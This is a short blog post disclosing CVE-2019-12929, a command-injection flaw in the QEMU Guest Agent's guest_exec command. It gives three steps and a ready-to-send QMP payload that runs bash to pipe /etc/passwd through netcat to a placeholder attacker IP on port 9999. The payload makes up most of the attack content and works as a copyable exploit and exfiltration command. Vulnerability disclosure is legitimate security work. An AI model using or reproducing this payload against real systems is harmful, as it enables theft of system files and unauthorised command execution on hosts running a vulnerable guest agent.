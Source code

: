```yaml
---
layout: post
title: "[CVE-2019-12929] QEMU Guest Agent guest_exec Remote Command Execution"
date: 2019-06-06
categories:
    - blog
keywords: "qemu, qemu-ga, guest_exec, command execution"
---
```


The QMP `guest_exec` command in QEMU 4.0.0 and earlier is prone to OS command injection, which allows the attacker to achieve code execution, denial of service, or information disclosure by sending a crafted QMP command to the listening server.

1st, execute the QEMU Guest Agent service<br>
2nd, open another console and setup a listener to port 9999<br>
3rd, connect to the target and enter the following commands:

```
{'execute':'guest-exec','arguments':{'path':'/bin/bash','arg': ['-c', 'cat /etc/passwd | nc <attacker_ip> 9999']}}
```
